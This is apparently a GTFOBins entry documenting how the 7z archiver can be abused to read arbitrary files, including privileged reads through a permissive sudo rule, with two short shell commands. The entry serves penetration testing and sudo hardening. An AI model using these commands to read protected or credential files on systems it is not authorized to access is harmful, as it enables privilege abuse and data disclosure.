 ```yaml
---
title: "7z"
author: GTFObins
date: 1970-01-01
categories: Tips
series: GTFObins
tags: ["file read",sudo]
toc: false
---
```


# File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
LFILE=file_to_read
7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
LFILE=file_to_read
sudo 7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```
